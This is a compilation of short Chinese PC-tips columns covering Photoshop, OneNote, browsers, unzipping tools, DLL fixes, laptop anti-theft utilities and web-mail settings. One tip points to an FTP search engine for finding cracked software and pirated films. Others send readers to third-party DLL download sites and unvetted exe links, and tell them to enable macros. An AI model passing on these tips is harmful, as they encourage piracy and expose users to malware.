在进行广告设计或图像处理时，一般需要在设计制作前用PhotoShop处理客户提供的图片，剪裁、抠背景、调亮度、调对比度等。通常是启动PS后，执行“文件→打开”菜单命令，找到相关的路径打开图片文件后再编辑。其实还有更快的方法：用鼠标直接把图片“拖”到PS在桌面的快捷图标上，出现“用PS打开”标注，即在PS内打开了相关的图片。

抠图时，PS提供了多种选择工具，比如矩形、椭圆等选框工具，套索、磁性套索等工具，还有钢笔路径工具、通道等。但还是魔术棒工具实用，配合Shift键和Alt键来增加或减小“选区”，就能快速地选择出相关的区域。

新的PS CS5版中增加了快速选择工具，有兴趣的朋友可以去体验这种选择工具。

（文/张国武）

## 电子小报巧存图片放网上

平时在单位经常用Word 2010制作宣传小报，一般都是打印出来发给大家阅读，可最近领导要求将电子小报放到网上，因此需要将电子小报保存为图片。可Word 2010并没有提供直接保存文档为图片的功能，本想通过截图方式获取，可因为电子小报的版面比较大，一次不能100%截取整个版面，需要分别截取再拼合，比较麻烦。而借助Office中的OneNote 2010，就能直接将整个版面转换成图片，如果小报有多个页面，也可以分别保存为图片，非常方便。

启动Word 2010，打开电子报刊，选择菜单“文件→打印”出现对话框，选择“打印机”下的“发送到OneNote 2010”，选择“设置”下的“打印所有页”，最后单击“打印”按钮。

稍后会自动启动OneNote并弹出对话框，任意选择一个保存位置，单击“确定”按钮，此时电子报刊的所有版面都会转换为相应图片保存在这里，右击图片选择“另存为”，将电子报刊的各个版面分别保存起来即可，这样Word电子报刊也就转换为图片了。

小提示：其实这里是将OneNote 2010作为一台虚拟打印机，通过虚拟打印的方法将文档转换成图片。通过这种方法，我们也可以将网页、PDF电子书等直接“打印”成图片，有此需要的朋友可以尝试一下。

（文/周建峰）

## 调用非默认搜索引擎 傲游快捷字帮您

傲游浏览器地址栏具有网址与搜索二合一功能，当你输入网址后回车，将打开网页，而当你输入搜索关键字再回车，将调用默认的搜索引擎进行搜索。一般情况下，默认的搜索引擎为百度，如何在不修改默认搜索引擎的情况下，在地址栏中调用其他的搜索引擎进行搜索呢？使用傲游“快捷字”可以实现。

打开傲游浏览器，依次单击“菜单→选项→搜索引擎”，选中一个非默认搜索引擎（如“有道搜索”），单击“修改”，在弹出的对话框中，指定“快捷字”（如“y”）并确定，这样在傲游地址栏中需要用有道搜索引擎时，输入“y 关键字”（中间有一空格）再回车，就会打开有道搜索页面，而不会打开百度搜索页面，其他搜索引擎你也可以定义不同的快捷字。

（文/曹春华）

## 无惧多级压缩 解压只需一键

最近从网上下载了一些教程，想趁有空学习学习，解压缩时却傻了眼。原来有些压缩包还包括许多小压缩包，有的小压缩包里又有压缩包。而WinRAR只能解压一级压缩包，对压缩包中的压缩包则无能为力，更别说多级压缩了。如果一个一个、一级一级解压还不把人累死？后来在Multi Unpacker这款软件的帮助下，终于一次就解开了大压缩包中的所有小压缩包。

Multi Unpacker（下载地址：http://www.softpedia.com/progDownload/Multi-Unpacker-Download-131157.html）需要在WinRAR和Java 6的支持下才能使用，可以同时解压RAR或ZIP格式的多级、多个压缩包。

- ①打开程序界面后，先单击Choose按钮，选择压缩包所在的文件夹打开，然后单击第二个Choose按钮，指定WinRAR程序的可执行文件打开，接着需要在最下方选择解压模式。
- ②解压模式有三个选项，第一个是解压后覆盖现有的文件，第二个是解压多级压缩包中的子压缩包，第三个是解压后删除原有的压缩文件，其中的第二个选项必选，其它按需要选择就可以了。
- ③设置完后，单击Extract All Packages按钮，它便会将文件夹中所有压缩包中的所有子压缩包以及子压缩包中的文件，全都解压到当前的文件夹中，如果要把文件解压到其它位置，可以去掉Same as Archive选项的勾选，然后单击第二个Choose按钮指定解压路径。

（文/孙敏）

## 屏幕截图 远水解近渴

公司服务器上的数据库出了问题，小王又在外出差不能实时远程解决服务器上数据库的问题，怎样才能最快速地教别人解决问题呢？幸好小王常备SimpleShare网站，该网站最大特色可以很方便地对桌面进行截图（Draw Region）；录像（Record Video）上传，利用这个网站他快速在自己电脑上操作屏幕截图并自动上传到SimpleShare网站，公司同行直接预览截图很快解决了问题。

- 网站名称：Box SimpleShare
- 文档空间：5GB
- 单档大小：25MB
- 保存期限：永久
- 网站网址：http://sites.box.net/apps/web/simpleshare/
- 特色：屏幕快捷键截图，自动上传存储空间，桌面拖曳上传。

进入SimpleShare网站，单击Get The App按钮下载SimpleShare32.msi并直接进行安装，安装结束后会要求你登入自己的Box.net账号，如果你还没有自己的账号，可以单击Register for a free 5GB account注册一个新账号，或者直接打开https://www.box.net/signup网址，选择Personal，按照提示输入相关信息，单击Continue，然后到注册邮箱中单击链接，校验一下邮箱即完成注册。

- ①启动Box SimpleShare程序，并用注册邮箱登录软件，单击Preferences，下方分别是对桌面不同截图方式的快捷键：Full Screen（全屏），Draw Region（局部），Screencast（录像）。以录像为例，同时按下Alt+Shift+5后屏幕变暗，出现Select a region with the mouse, right click to cancel（用鼠标选择一个区域，右键单击放弃），按提示录制完操作区域内的动作，单击Stop recording完成录像。软件会自动以当前时间为文件名上传到网站，录像自动保存为flv文件，截图自动保存为png格式。
- ②要上传硬盘里的现有资料，则鼠标右键单击需要上传的文档，选择Share with Box，就可以立刻将文档上传到Box.net里。
- ③在Account下单击View Folder，可以查看所有已经上传的文档，单击对应的文件会看到相应的图片或者flv视频，flv视频打开的速度要慢一些，打开图片后右上方有一个网址，这就是对方查看和下载的网址，对急于解决问题的小王来说，他的同事只要输入这个地址就可以直接在线预览这些图片，节省了下载的时间，其他文档也同样可以在线预览。

小提示：还可以直接通过拖曳将需要上传的资料拉到右下角任务栏中的SimpleShare图标上，就能直接上传，等到上传完毕时会自动弹出提示框，这时分享的网址已经同时存储在你的剪贴板中，只要在浏览器地址栏中按下Ctrl+V，就可以看到这个下载地址，再发给对方就可以了。它支持Windows和Mac操作系统，可以通过移动设备APP同步数据。

（文/朱莉）

## 重要邮件等回复 免费短信提个醒

暑假陪孩子回老家，抽空写了两篇文章给杂志社，非常期待能够收到编辑的回复邮件。但在老家上网不太方便，通过手机登录邮箱也很麻烦。偶然发现使用回复邮件的短信提醒功能，可以在第一时间收到指定回复邮件的免费短信提醒，然后再通过手机或电脑上网去查看邮件内容，就不需要每天都上网查看是否有回复邮件了，也不需要开通包月服务。

以网易163邮箱为例。当投稿邮件发送完成之后，在“发送完成”的提示下方，会出现“不必等在电脑前，一旦有人回复此邮件，您的手机将收到短信通知，并手机阅读邮件”的提示信息，单击“开通免费短信提醒”按钮，并输入手机号码，对自己的投稿信箱进行手机回复短信的验证操作，确定后输入验证短信中的验证码以完成验证操作，一旦收到回复邮件，就会立即收到短信提醒。

（文/远渡重洋）

## 游戏不能玩 信息提前报

近来心血来潮，想借《刺客信条2》这款游戏大作过把瘾，然而经过千辛万苦的前期准备，却发现下载的游戏无法在电脑上运行，郁闷之余疑问丛生：是什么原因阻碍了游戏的正常运行，又该怎样提前获取这些信息呢？

### 一、利用工具进行检测

#### 1. 检测硬件配置

遇到游戏无法运行这种现象，首先应该检查电脑的硬件配置是否达到游戏的要求。一般在游戏的官网都会列出游戏的基本配置和最高配置，如果不想去官网查看，也可以利用Can You Run It这个网站测试一下自己的电脑。

进入网站后（http://www.systemrequirementslab.com/cyri/），在最上方的文本框中输入游戏英文名称，或单击第二个文本框中的下拉箭头，在弹出的游戏菜单中选择要检测的游戏，然后单击“Can You Run it?”按钮（第一次测试需要安装插件），稍等片刻检测完成。

在新打开页面的上方就会告知你检测结果，假如是红色的“FAIL”，表示电脑配置过低。而绿色的“PASS”则意味着硬件配置能够达到游戏要求，个别时候还会出现问号，这一般是不重要的配件，比如光驱不能满足要求。

页面下部还有两个标签，分别显示在基本配置和推荐配置下，每个硬件是否达到要求，内容涉及CPU、内存、操作系统、显卡、声卡等多个项目，如果某项右侧显示为PASS字样，表明该项符合游戏要求，显示为红色的话，说明你该升级对应的配件了。

#### 2. 检测游戏运行库

即使硬件配置很高，有时还是无法进行游戏，这就极有可能是电脑中的运行库出现问题。大家可以利用“PC游戏运行库检测工具”（下载地址：http://www.piaodown.com/soft/50150.htm）这款软件，对DirectX、.Net Framework、Visual C++等支持环境进行检测。

打开程序界面，单击“立即检测”按钮，软件便会在界面中显示出检测结果，需要更新的组件右侧会出现红色的“立即更新”字样，单击“立即更新”文字链接，就会打开相应运行库的下载页面，随后将运行库下载安装即可。等所有的运行库右侧都出现“无需更新”的提示时，游戏的障碍即被扫清。

### 二、让游戏盒提前通知

#### 1. 4399提前通知

现在不少朋友使用游戏盒玩游戏，既快捷又方便，但是你知道吗？有的游戏盒软件就具备了检测功能，比如“4399游戏盒”和“金山快快”游戏盒。不过就“4399游戏盒”而言，需要事先进行相应的设置。

打开“4399游戏盒”（下载地址：http://box.4399.com/download.php）程序界面，单击右上角的下拉箭头，选择“系统检测向导”选项，弹出系统检测向导界面，其中显示出硬件的得分与游戏环境插件的安装情况。

缺少的插件，可单击右侧的“下载”按钮下载和安装。

再单击“下一步”按钮，在打开的界面中勾选“下载我可能不能运行的游戏时提示”选项，单击“完成”关闭界面即可。这样当以后选择的游戏电脑不能运行时，就会弹出提示框进行提醒。

#### 2. 金山快快自动检测

“金山快快”（下载地址：http://www.kuaikuai.cn/welcome/）的解决方案也很贴心。当选择较大的游戏，单击“开始游戏”按钮时，即会弹出提示框，提示游戏对硬件要求较高，而当你单击“下一步”按钮时，便会对电脑的硬件配置进行检测，并把结果呈现出来，只有硬件符合要求后才可以继续进行。

当游戏初始数据加载完毕，“立即运行”按钮尚未激活时，还会弹出游戏依赖库检测窗口，如果电脑缺少运行库支持的话，会提示“目前检测到您机器上的游戏依赖环境准备不足”，此时大家可单击提示框中的“立即修复”按钮，安装所需要的运行库，之后就可以顺利地进行游戏了。

（文/孙敏）

## dll错误不用怕 轻轻松松来修复

在运行一些游戏或特殊的软件时，经常出现dll文件丢失或错误的情况，尤其是对使用修改版系统的朋友更为普遍。这对于那些大侠们来说当然毫无难处，但是对于电脑菜鸟们而言往往就一筹莫展了。现在我就介绍几种比较简单的解决dll错误的方法，希望能给各位朋友提供一些帮助。

#### 最基础的方法：网络搜索

虽然网上这方面的资源也很多，但能全面覆盖各种dll文件的却没有几个。在此推荐两个比较有名也比较全面的dll文件下载站点：http://www.ylmf.net/dll/ (雨林木风dll文件下载网站) http://www.zhaodll.com/ (找dll下载站)

#### 对症下药：独木成林 Dll 文件智能修复

当运行程序出现问题时，系统会自动弹出dll出错信息的窗口。打开“独木成林dll文件智能修复”软件（下载地址：http://u.115.com/file/cmycmp78l），输入出错的dll文件名称，点击“智能修复”按钮就可以解决了。这种方法对于电脑菜鸟来说就简单多了。

#### 未雨绸缪：提前解决问题

对于使用精简版或修改版等非原版系统的朋友来说，运行游戏或程序时遇到这类的问题简直是家常便饭，所以我们有必要未雨绸缪，提前把问题解决，以后就不用担心会出现错误了。这里我用到的工具是“DllErrorsFix”软件（推荐使用汉化版，下载地址：http://www.greenxf.com/soft/25289.html），这是一款在国外非常有名的共享软件，这里用的是绿色汉化版。运行软件，点击“开始扫描Dll错误”按钮，软件就会自动扫描系统中存在的dll错误，并且分析错误种类和个数，修改版的系统一般错误还是相当多的。不过不要紧，点击下面的“立即修复错误”，很快就能修复完成，这样一键永逸的做法相信一定合你的胃口！

（文/飞天小猪）

## PPT与几何画板完美结合

为了在日常教学中更多地使用多媒体，我们学习了PowerPoint和几何画板的使用，如果能够将两者结合起来，可以相得益彰，制作出几乎完美的课件。以前常用的方法是将几何画板制作好的扩展名为GSP的文件用其它工具转换成EXE文件，然后在PowerPoint中设置超级链接到该EXE文件，这样才能正常使用几何画板课件，操作相对来说比较麻烦。“几何画板for PowerPoint”这个工具软件可以将几何画板直接无缝嵌入到PowerPoint中，用起来就方便多了。

从http://www.brsbox.com/filebox/down/fc/becd8ba07402e739d5fef889fe1a7d2f将“几何画板for PowerPoint”下载到本机并解压至任一目录，双击文件夹中的“安装.cmd”文件可进行安装。当然若您想卸载本软件，双击“卸载.cmd”文件即可。单击此命令，在对话框中找到要插入的GSP文件，再单击“打开”即可将几何画板课件插入到PowerPoint中，现在就和使用PowerPoint中的控件一样方便了。安装完毕后打开PowerPoint软件，新建一个演示文稿，单击“插入”菜单，你就会发现下面多了一项“插入几何画板…”命令。

小提示：当您再次打开嵌入几何画板文件的演示文稿时，系统会弹出一个“安全警告”对话框，询问您是“启用宏”还是“禁用宏”，只有单击“启用宏”按钮，播放过程中嵌入的几何画板文件才能正确显示。

（文/陈晓军）

## 百度谷歌后备力 专门搜索大揭密

“有问题，找百度”，谷歌和百度是大家常用的搜索引擎，可以帮助我们解决绝大多数问题。可是，这些搜索不是万能的，很多时候我们还要用到其他一些专门的搜索，这些专门的搜索在各自的领域里表现非常“给力”。

#### 语义搜索

大家可以尝试比较一下，是不是语义搜索更接近我们的需求？语义搜索被誉为下一代搜索，被称为最可能替代谷歌的搜索（不过谷歌已有对策，去年7月收购语义搜索公司Metaweb，已经在改进其核心业务互联网搜索）。大家如果要搜索句子，或者意思不明确，那么语义搜索是很好的选择。一般的搜索引擎，依靠字面本身的意思进行搜索，然而语义搜索会主动判断整个句子的语义，比如使用Kngine (www.kngine.com) 语义搜索“大运会照片”，搜索引擎呈现出各种与大运会相关的信息的内容或者照片，而不仅仅局限于该图片的标题是否包含“大运会”字样，或者文字本身包含“大运会”、“照片”两个关键字。

#### 文件搜索

例如我们搜索“教师 职称 评审”，上面给出一大堆文件，是不是很爽呀。这个引擎是一个专业的文件搜索引擎，非常适合大家寻找资料。它是由北大网络实验室研制开发的，是国家“九五”重点科技攻关项目“中文编码和分布式中英文信息发现”的研究成果。

#### ftp搜索

想找各大高校老师的课件，或者想在海量信息中找内部资料，绝对离不开ftp搜索。文件挖掘者FTP搜索引擎 (http://www.fdigg.net/) 号称教育网最快最全的搜索引擎，实际使用的确非常不错。如果你想找一个冷门的破解版软件或找一个外版高清电影，在这里可能有意想不到的收获。

#### 学术搜索

百度谷歌搜索的结果太简单，如果你需要稍微专业性的信息，不妨使用谷歌的学术搜索 (http://scholar.google.com/schhp?hl=zh-CN)，它主要搜索学术文章，不过也千万不要以为学术搜索多么专业，你搜索一个“上火”看看，就有很多普通的生活常识。这里告诉大家一个小秘密，在使用学术搜索的时候，一定要选中“至少显示摘要”选项，这样可以很容易让你找到搜索结果。

#### 图片搜索

如果你手头有一个添加水印的照片，你想找一个没有水印的照片怎么办？如果你开网店，你如何知道辛苦拍摄的照片被别人盗链装扮他们自己的网店？TinEye和谷歌识图可以帮助我们解决这个问题。使用TinEye (www.tineye.com) 与普通的搜索引擎没有太大的区别，你可以传一张照片，让TinEye去搜索，或者你也可以直接输入某一个图片的URL地址，它照样可以将这个图片搜出来。大家从图中可以看到，此时提交了一张手机照片，TinEye搜索了很多相似的照片。

（文/赵建超）

## 傲游3入驻移动硬盘和U盘

经常去网吧上网的朋友肯定会注意到，带上一个属于自己的浏览器很重要，把傲游2安装在移动硬盘或U盘里就可以享受收藏夹、自动填表单等的方便了。但是功能更强大的傲游3已经发布了，升级是有必要的。把傲游3安装到移动硬盘后我就发现，只要一换电脑傲游3就不能自动登录，同时个人设置等数据也会丢失，很明显这些数据不是存储在移动硬盘中（2.X的版本会存储在软件目录中），有人说可以先找这些数据备份出来，下次使用时再复制进去，但这样做非常麻烦，其实解决这个问题很简单。进入傲游页面 (www.maxthon.cn)，单击傲游浏览器3免费下载按钮下面的“便携版本下载”，得到一个压缩文件，将压缩包解压到移动硬盘或U盘中，运行解压文件夹中的\Bin\Maxthon.exe，以后只需要插上移动硬盘或U盘就能时刻享受傲游3带来的便利了。

（文/李少勇）

## 分享访问受限的QQ空间日志

QQ空间的好友动态的确好用，但有时候想分享好友的一篇日志，点击以后出现这样的问题：访问受限。这时就按下“分享”按钮，提示分享成功以后，到QQ空间页面左侧标签栏点击“分享→我的分享”打开分享的日志，就可以看了。

（文/浅夏）

## 专业垂直搜索 何必东奔西走

最近我有一个朋友家的四合院被划入县城新城区扩建的征地拆迁范围，面临拆迁补偿安置的问题。他想仔细查看一下相关的法律法规文件，以最大限度地维护自己的合法权益。可是，当他通过百度搜索引擎输入关键词“征地拆迁 法律法规”进行搜索时，却发现搜索的结果五花八门，他花了很长时间也没能找到一个完整无误的法律法规文本，只好打电话向我求助。
使用百度、谷歌等搜索引擎虽然可以帮助我们搜索到海量的信息，但在因特网上还有一些特殊的数据库中的内容，需要借助网站本身提供的垂直搜索引擎，才能够更快更准地搜索到我们所需要的准确信息。套用一句老话就是“搜索引擎不是万能的，没有搜索引擎是万万不能的”。

### 拆迁补偿相关文件查询

下面就以查询与拆迁补偿相关的法律法规文件为例，来讲解网络数据库的一般查询方法。

- 1. 首先登录中国法律法规信息系统 (http://law.npc.gov.cn/home/begin1.cbs) 提供的查询页面，在全国性法规司法解释列表下勾选所有四个选项，在“地方性法规”列表中勾选所在的江苏省，在右侧的“正文检索”文本框中输入关键词“拆迁补偿”，单击“开始搜索”，很快就可以搜索到国家各部委和该省已经颁布的相关法律法规以及司法解释。返回分类查询目录，单击“江苏省地方法规”，就可以打开该省已经颁布的包含关键词“拆迁补偿”的所有法规文件。
- 2. 单击法规文件列表中的对应法规名称，例如“江苏省城市房屋拆迁管理条例”，就可以完整无误地显示该条例的所有内容以及相关的修订记录等信息。

### 馆藏图书借阅查询

经常光顾大型图书馆的朋友，可能碰到过自己想借阅的图书被别人捷足先登的情况。其实，一些大型的图书馆都提供了馆藏图书的垂直查询页面，以方便我们通过网络远程查询预约，防止出现因借不到书而白跑一趟的情况。

- 1. 以中国国家图书馆 (http://www.nlc.gov.cn/) 提供的文津搜索为例，输入要查询的关键词，例如“红楼梦”，选择“馆藏目录”项，单击“搜索”，很快就可以查询到对应的馆藏目录。
- 2. 单击对应的分类查询目录，就可以显示具体的藏书信息，包括馆藏数量、借阅数量与馆藏位置等信息，以方便我们借阅，而这些信息一般很难直接通过百度、谷歌等搜索引擎进行搜索。

| 序号 | 网络数据库名称 | 网址 |
|------|----------------|------|
| 1 | 中国学术文献网络出版总库 | http://epub.cnki.net/grid2008/index/ZKCALD.htm |
| 2 | 人大复印报刊数据库 | http://ipub.zlzx.org/ |
| 3 | 龙源期刊网 | http://www.qikan.com.cn/ |
| 4 | 维普期刊全文数据库 | http://oldweb.cqvip.com/ |
| 5 | 中国社会科学引文索引 | http://cssci.nju.edu.cn/ |
| 6 | 中国专利数据库 | http://www.cnipr.com/ |

> 小提示：
> 数据和资源共享这两种方式结合在一起即成为今天广泛使用的网络数据库，又称Web数据库，它以远程网络数据库为基础，网络用户利用浏览器作为查询入口，输入需要查询的关键词，浏览器将这些数据传送给网站进行查询处理，最后再将查询结果返回给浏览器，常见的网络数据库见附表。
> (文/姚文连)

## 怕泄密 那就换个记事本

小张平时总是喜欢用记事本记录琐事，图个方便省事。但由于他使用的是公用电脑，创建的文件谁都能看，闹了不少笑话，因此小张不止一次地感叹：要是能让记事本口如瓶就好了。小张的想法其实很容易实现，只要换成crypTN (下载地址: http://www.cryptnhome.tk/) 这款可以加密文本内容的记事本工具就可以了。

- 1. crypTN是一款绿色软件，需要.NET 4.0支持。运行后，单击Start按钮进入编辑界面，就像在记事本中一样输入或粘贴文字进行编辑即可。完成后单击Save as encrypted按钮，指定保存位置并命名文件，单击“保存”，在打开的密码输入框里输入文件的保护密码，单击Enter按钮，它就会自动使用AES256位加密技术加密文本，并保存到指定位置。
- 2. 经过加密的文件与平时的记事本文件没有任何区别，双击后会调用记事本程序打开，只是其中的文字全部显示为乱码，无法正确解读。当自己要打开时，只需在工具栏中单击Open encrypted按钮，选择加密文件打开，然后在弹出的密码输入框中输入密码，接着单击Enter按钮，就可以打开文档进行查看或编辑。

> 小提示：
> crypTN也可以创建或打开未加密的纯文本文件，唯一感到不爽的是，软件的界面背景与文字颜色反差较小，看起来有些费眼。
> (文/孙敏)

## 找回IE9的快速导航功能

很多朋友抱怨，原先在IE8中的“快速导航”功能在IE9中却取消了。事实上不是这样的，我们只要在Internet选项的选项卡设置中把快速导航功能勾选上就可以了。
打开IE浏览器的“Internet选项”，在“选项卡”这一项里单击“设置”，在“选项卡浏览设置”中，勾选“启用快速导航选项卡Ctrl+Q”，单击“确定”按钮即可。
再次打开IE9，利用选项卡打开较多的网页，按下Ctrl+Q，之后点击其中一个，就可以快速跳转到该标签页，真是太方便了。
(文/陈烯)

## 合上本本前盖 节能自锁防盗

### 自动锁定本本

我们使用完本本后，往往随手将其前盖合上而忘记了将其锁定，这会给非法使用者带来可乘之机。有了Laptop Assistant这款独特的软件 (下载地址: http://ladesofto.com/la.exe)，当您合上本本前盖后，不仅可以自动锁定系统，而且还可以延时关机和运行预设程序。

- 在系统托盘中的Laptop Assistant图标的右键菜单中点击“LID Controller Options”项，在弹出窗口的On external power面板是针对使用外接电源的情况，On battery面板是针对使用电池供电的情况。
- Lock on lid close 合上本本前盖后自动锁定系统
- Lid close sound和Lid open sound 选择播放提示音
- Lid close execute和Lid open execute 设置自动运行的程序
- Logoff then 选择当合上本本前盖多长时间后(默认10分钟)采取的动作(无动作、挂起、休眠、关机等)
- After 拖动滑块可设置延时时间(从0到60分钟)
- Active sound 选择动作提示音文件
- Active execute 选择目标程序
- Action execute timeout 拖动滑块可设置延时时间(默认为60秒,范围从0到300秒)
这样设置后，当前盖关闭时，超过预设时间后，还可以自动执行该程序。

### 让本本顺利入眠

现在的本本几乎都具有合盖自动休眠功能，您暂时不用时，只需将其盖子合上，它就会自动进入休眠模式，这时电脑耗电非常小，不过有时我们会面临合上前盖它却无法入眠的困境，主要是一些运行中的程序、服务或者驱动程序非法阻止了休眠动作的缘故。

- 1. 双击系统托盘中的Naptop图标，点击Configure Naptop，在设置窗口中选择Automatically protect laptop against sleep failures项，表示当合上盖子电脑试图进入休眠模式时，如果有其它程序阻拦休眠操作的话，它会自动强制结束该程序，让本本顺利进入休眠模式。
- 2. 若选择When closing lid, sound alarm if laptop does not fall asleep within 20 seconds项，则合上盖子后，如果电脑在预设的时间内(默认20秒)没有进入休眠模式，它会发出报警声，您可以深入检查是什么原因导致休眠失败。

### 自动报警

对于本本用户来说，最糟糕的事情莫过于本本被盗了。当您在公共场合使用本本，一旦离开而疏忽了对本本的保护，转眼间本本就可能不翼而飞。实际上，当您使用本本时，前盖一般都处于打开状态。小偷要偷走本本，必须合上前盖，才便于将其盗走。如果在小偷合上前盖时，本本自动报警，不就可以避免本本被盗的悲剧吗？使用Notebak Anti-Theft这款本本防盗软件 (下载地址: http://www.laptopmobilesecurity.com/PAD/Notebak_AntiTheft.exe)，就可以轻松实现上述功能。

- 1. 先打开https://www.notebak.com/register.php获得注册码，然后设置登录密码。点击Ctrl+Shift+V键进入设置窗口；勾选Laptop lid is closing项，表示当进入警戒状态后，如果有人试图关闭本本前盖，它就会发出报警声。
- 2. 勾选Power cord is unplugged项，表示当有人拔下本本电源线时，它同样发出声音报警。
- 3. 为了达到更好的效果，您最好将本本音量开至最大，前提是您需要将本本连接到外接电源上。勾选Lock computer when laptop lid is closing or the power cord is unplugged-with sound项，表示如果触发了上述任何一种报警动作后，它会自动锁定系统。点击Change the alarm sound可以更改报警声音文件。
- 4. 当您暂时离开本本时，需要在其主窗口中点击蓝色的OFF按钮，使其变成绿色的ON按钮，使其进入警戒状态。一旦有人试图盗窃本本，即可触发报警动作。
(文/郭建伟)

## 别让显示精度“忽悠”你

接到公司会计的抱怨，说我计算的员工奖金表出了点小问题，让她倒贴了几块钱。通过Excel工作表认真计算出来，并经过所有员工核对过的奖金表，怎么可能有错误呢？经过仔细的研究，才发现是显示精度“忽悠”了我。下面将通过一个简单实例，来模拟这个问题的前因后果。

根据公司制定的绩效考核条例，计算出来的奖金数据包含小数部分。通常我们都是选定包含小数的数据区域，单击数字选项卡中的“减少小数位数”，将奖金四舍五入，便于造表并经领导签字盖章后发放。正是在“减少小数位数”这个环节出了问题，但由于实际的奖金计算表中，人数较多，总金额相差也不是太大，因而不容易被发现。

虽然我们看到的数字已经四舍五入后取整了，但实际计算总奖金时的精度却没有发生改变，所以才会出现错误发放表中“3+4+5=11”的怪现象。而员工在领取奖金时都是先取整再发放，这就出现了奖金合计与实际发放的不匹配，需要会计自己倒贴1元钱的情况。

为了得到正确的奖金发放表，需要依次单击“Office按钮→Excel选项”，勾选“高级”选项中的“将精度设为所显示的精度”，它会提示“数据精度将会受到影响”，也就是说该工作表中的数据精度将和实际显示的保持一致。一旦单击“增加小数位数”，就无法找回原来的数据精度了。

(文/远渡重洋)

## 一键清除Google的网络历史记录

为了方便下一次的查找，我们每次使用Google时，所有的搜索历史和点击过的搜索结果，都会被保存在服务器中，例如在输入内容时显示个性化的搜索内容预测、获取符合你偏好的搜索结果和推荐内容、推荐已浏览过的网页内容。不过这样一来，隐私的泄露恐怕就有一定的危险……

清除Google搜索历史的方法很简单，在浏览器中登录https://www.google.com/history/，在这里可以按照日期查看不同时间的网络历史记录，选择之后即可一键删除相关的历史记录，当然也可以全部删除。如果细心的话，你会发现可以对某个搜索结果进行加星，以方便日后的查找。

(文/王志军)

## 和QQ游戏退出广告说再见

这几天老爸喜欢在QQ游戏上玩“斗地主”这个游戏，可是每次关掉QQ游戏的时候都会抱怨关掉时会弹出广告来！在老爸的抱怨声中我找到了QQ游戏关闭后弹出广告的文件。

首先关闭QQ游戏，找到QQ游戏的安装地址（对着QQ游戏单击右键选“属性→查找目标”），找到“Res”这个文件夹，进入后打开“AD”文件夹。里面有三个文件，把“adfiles”和“gamemsg”都删除掉，接着新建两个文本文件并命名为adfiles和gamemsg。把文本文件的扩展名去掉（扩展名显示：工具→文件夹选项→查看→隐藏已知文件类型的扩展名），最后把两个文件分别设置为“只读”，防止QQ游戏再次生成广告文件。再次打开QQ游戏，关闭游戏的时候就再也见不到那烦人的广告了。

(文/曾梓虎)

## 淘宝同店购物不必多花邮费

女友在淘宝买了两件衣服，我感觉质量和款式还不错。当我确认收货时发现两件衣服来自同一家店铺，但女友却花了两个邮费，而卖家是用一个包裹寄来的，白白多花了一个邮费。为了让大家不再遇到这样的烦恼，我这里介绍一个好方法。

首先登录淘宝选择自己喜欢的商品，选择好颜色和尺码，这时不要立即点击“立刻购买”，点击旁边的“加入购物车”，之后在这个店铺看到喜欢的商品还点击“加入购物车”。当选择完所有的商品后，点击界面上方的“购物车”，然后在弹出的界面中点击“结算”。接下来再确认订单信息菜单中选择邮寄方式，这样在一个店铺就可以花一个邮费购买多个商品了。

需要注意的是，商品的重量在一公斤以下才可以花费一个邮费。如果有的店铺买一个商品就花一个邮费（重量一公斤以下），很可能就是黑店铺。除此之外，网络购物需谨慎，最好选择信誉比较高的卖家。

(文/郭成贺)

## 已发送邮件 自动保存没商量

工作中我需要把发送的邮件进行备份，在公司我用Outlook，不管附件多大，都会自动保存到已发送邮件中。如果是出差在外，我则用上网本通过Web方式发送邮件，但超过1MB的邮件，总要单击“邮件发送成功”提示后的“保存该邮件”，否则就不会自动保存到已发送邮件中。

我用的是网易163邮箱，通过Web方式登录邮箱，依次单击“设置→邮件收发→写信”，其中“发信后，自动保存邮件”选项的默认选择为“保存小于1M的邮件”，这就是大于1MB的邮件不能自动保存的原因。勾选“全部保存到‘已发送’文件项”，确定即可。

常见的Web邮箱都提供了类似的邮件自动保存设置，只要进行类似的设置，以后不管是通过客户端软件还是Web方式发送邮件，只要附件大小没有超过邮箱规定的上限，就都会自动保存到Web邮箱的已发送文件夹中，而且还可以使邮件客户端和Web邮箱的已发送邮件列表保持同步。不过要记得定时清理无关紧要的邮件，防止邮箱爆满哦。

(文/远渡重洋)

## 影楼拍照防丢防错

学校创业园开张了，我们四人合作的广告影像公司位列其中，小张负责摄像，小李负责后期制作，小王负责外勤，我则负责财务及接待。开张仅一周营业额就超过1000元，尤其是新生入学照片这块格外红火。但随着学生人数的增加，所拍的照片丢失或张冠李戴的事偶有发生。引入“靓选影楼客户选片系统”后，才从流程上彻底避免了错片、丢片的情况发生。

- 1. 建立照相同学的资料。运行该选片系统，单击“客户管理”建立同学所在班级、联系电话以及取片时间。这样方便通知他们，以及后期的查询和选片。
- 2. 选片入相框。建立“水晶”相册（照片用水晶相框装裱），小相册（二寸），大相册（五寸），特殊情况可以根据同学的个性化建立相应的相册（比如“个人写真15寸”）。
- 3. 然后选择建立的相册，用浏览方式打开所拍照片，点击“添加”按钮，将照片归类存放。这样后期制作人员见到相册的名字，自然了解含义，而不会发生照片的丢失、制作不符合要求等意外发生。

### 小提示：

想在校园创业的同学，一定要把情况想得复杂一些，对出现的新情况、新问题要及时解决，这样才能赢得客户、赢得经验。顾客永远都是上帝，对照相这件小事而言，如果发生照片丢失、错位，那么谁还会选择您的服务呢？

(文/段晓东)

## 将QQ截图直接分享到微博

在发表微博的时候，我们可能需要插入一些截图，最常用的方法是使用QQ截图，常规的做法是单击截图工具栏中的“完成”按钮，然后将其粘贴到腾讯微博的广播框，或者保存之后进行上传，显然颇为麻烦。其实，我们在使用QQ截图之后，可以直接发表到腾讯微博。

在按下“Ctrl+Alt+A”组合键完成截图之后，不需要再切换到“微博”面板或登录腾讯微博主页进行操作。请注意截图工具栏中的分享按钮，选择之后会弹出“分享图片”的对话框，确认之后将当前截图直接分享到空间或者微博即可。

(文/王志军)

## 邻居家常走 好东西带走

迅雷用户可以把一些好的资源共享出来，如何查看和分享他们的好东西呢？分享资源的迅雷用户会成为我们的“邻居”，只要这些邻居在线，他们的大门就是随时敞开的，我们可以任意出入查找、下载。

登录迅雷账户，鼠标移至“我的应用”右侧，出现隐藏菜单按钮时单击，选择下拉菜单中的“更多应用”，然后单击“迅雷邻居”下的“添加”，经下载安装后再单击“打开”，就可以看到各个邻居的电脑图标了。图标为灰色表示该邻居不在线，双击在线邻居图标，就可以进入邻居家中。如果看到邻居家中有什么好的东西想据为己有的话，右击资源，选择右键菜单中的“下载”即可。

(文/吴忠仪)

